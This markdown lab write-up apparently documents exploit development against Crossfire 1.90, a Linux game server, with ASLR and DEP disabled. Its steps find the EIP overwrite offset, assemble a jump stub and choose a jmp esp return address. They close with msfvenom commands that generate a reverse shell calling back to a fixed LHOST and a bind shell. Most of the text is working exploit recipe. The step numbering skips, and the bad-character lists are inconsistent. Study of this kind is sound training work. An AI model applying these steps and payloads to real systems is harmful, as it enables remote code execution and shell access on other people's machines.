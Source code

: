 # CrossFile exploit development

## Exploit background

Version: Crossfire 1.90, without ASLR and DEP
Debugger use: edb (Evan's debugger) 0.9.21
OS: Linux kali 4.12.0-kali2-686

## Development steps

1. Start debugger using command `edb --run /usr/games/crossfire/bin/crossfire`

2. Use poc.py to test the buffer overflow exploit.

    ![hashdump](../../images/crossfire_poc.png)

3. Use pattern to locate where EIP is

    ```
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046
    [*] Exact match at offset 4368
    ```

    ![hashdump](../../images/crossfire_bbb.png)

3. Observer and find that EAX is pointing to the begining of 'setup sound AAA....', while ESP is pointing to 'CCCCCC...'

4. The shellcode will execute code in 'CCC...' section first, then jump to 'AAA...' section.

    ```
    root@kali:~/Desktop/exercise/8_linux_bufferoverflow# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    nasm > add eax, 12
    00000000  83C00C            add eax,byte +0xc
    nasm > jmp eax
    00000000  FFE0              jmp eax
    ```

    code in section 'CCC...' : \x83\xC0\x0C\xff\xe0

5. Bad characters checker, badchars is \x00\0x20 only, see code at bad_chars.py

    

6. Use Plugin -> OpcodeSearcher -> Opcode search, search for `jmp esp`, You must halt the debugger or no result is returned.

    * Select /usr/games/crossfire/bin/crossfire r-x section (Start: 08048000, End: 08144000)

    * Result: 08134597

    * Beware that 08134596 is ff f3 e4 which is not I want, should be ff e4
    
    ![hashdump](../../images/crossfire_eip.png)

7. update the script to replace B with address  \x97\x45\x13\x08, set breakpoint at 0x08134597


8. run exploit_poc.py, the breakpoint trigger at 0x08134597 (stop the program first) and run to section 'CCC...' and later 'AAA...'

    ![hashdump](../../images/crossfire_aaa.png)

12. Now create a payload and replace the CCC section

    * reverse shell
    ```
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x20"
    ```

    * bind shell
    ```
    msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -e x86/shikata_ga_nai -b "\x00\x20\x0a\x0d"
    ```

13. Create and run exploit.py, and a reverse shell or bind shell is spawn.


